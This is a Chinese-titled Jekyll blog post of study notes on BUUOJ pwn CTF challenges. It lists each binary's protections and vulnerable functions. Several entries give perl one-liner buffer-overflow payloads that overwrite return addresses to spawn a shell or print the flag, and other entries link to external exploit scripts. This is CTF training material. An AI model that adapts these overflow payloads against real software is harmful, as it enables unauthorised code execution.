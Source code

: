 ```yaml
---
layout: post
title:  "信息安全学习笔记 - BUUOJ Pwn 入门"
date:   2020-07-18 12:15:38 +0800
---
```



# BUUOJ PWN

## Requirements
1. python
   1. ropgadget, capstone, 
   2. pwntools
2. nasm

## Prologue
1. file xxx
   1. arch, stripped?
2. checksec

## Problems

1. test_your_nc 
   1. ida system("/bin/sh");
   2. `perl -e 'print "ls\ncat flag\n"' | test_your_nc`
2. rip
   1. `system("/bin/sh")` found
   2. segfault??? _TODO_
3. warmup_csaw_2016
   1. amd64, C `gets` and `system("cat flag.txt")` found
   2. overwrite return address
   3. `perl -e 'print "A"x72 . "\x0d\x06\x40\x00\x00\x00\x00\x00\n"' | ./warmup_csaw_2016`
4. pwn1_sctf_2016
   1. x86, C `gets` and `'system("cat flag.txt")'` found
   2. overwrite return address
   3. `std::string`: the source replaces any appearance of `I` with `you` in string input
   4. `perl -e 'print "I"x20 . "\xef\xbe\xad\xde\x0d\x8f\x04\x08\n"' | ./pwn1`
5. ciscn_2019_n_1
   1. amd64, C `gets`
   2. overwrite a variable and bypass
   3. floating point number comparison
      1. more info about `xmm0` [SSE registers](https://en.wikibooks.org/wiki/X86_Assembly/SSE#Registers):
         1. [saturation arithmetic](https://en.wikipedia.org/wiki/Saturation_arithmetic) and [clamping](https://en.wikipedia.org/wiki/Clamping_(graphics))
         2. SIMD instructions
   4. `perl -e 'print "A"x(0x30-4) . "\x00\x80\x34\x41\n"' | ./ciscn_2019_n_1`
6. [**post**]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html) ciscn_2019_c_1
7. [**script**]({{ site.url }}/assets/OGeek2019_babyrop.py) [OGeek2019]babyrop
   1. x86, NX enabled and stripped
   2. C `read`
   3. `strncmp(a, b, 0)` always returns 0
8. ciscn_2019_en_2: the same as [ciscn_2019_c_1]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html)
9. [**script**]({{ site.url }}/assets/get_started_3dsctf_2016.py) get_started_3dsctf_2016:
   1. x86 and NX enabled
   2. c `gets`
   3. `get_flag` and **peaceful exit**
10. [**script**]({{ site.url }}/assets/5space_pwn5.py) [第五空间2019 决赛]PWN5:
    1.  x86, NX enabled, canary found and stripped
    2.  [**format string exploit**](https://wooyun.js.org/drops/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E7%AE%80%E4%BB%8B.html)
11. [**script**]({{ site.url }}/assets/jarvisoj_level0.py) jarvisoj_level0:
    1.  amd64 and NX enabled
    2.  c `read`
    3.  `system` and `"/bin/sh"` found
12. [**script**]({{ site.url }}/assets/r2t3.py) [BJDCTF 2nd]r2t3:
    1.  x86 and NX enabled
    2.  `system` and `"/bin/sh"` found
    3.  truncated string length: `uint8_t length = (uint8_t) strlen(input)`
13. [**script**]({{ site.url }}/assets/ciscn_2019_n_8.py) ciscn_2019_n_8
14. [**script**]({{ site.url }}/assets/not_the_same_3dsctf_2016.py) not_the_same_3dsctf_2016
    1.  [ROP]({{ site.url }}/assets/not_the_same_3dsctf_2016.py), or
    2.  [mprotect(.bss)](https://zhuanlan.zhihu.com/p/141065867), read and shellcode _TODO_
15. [**script**]({{ site.url }}/assets/HarekazeCTF2019_baby_rop.py) [HarekazeCTF2019]baby_rop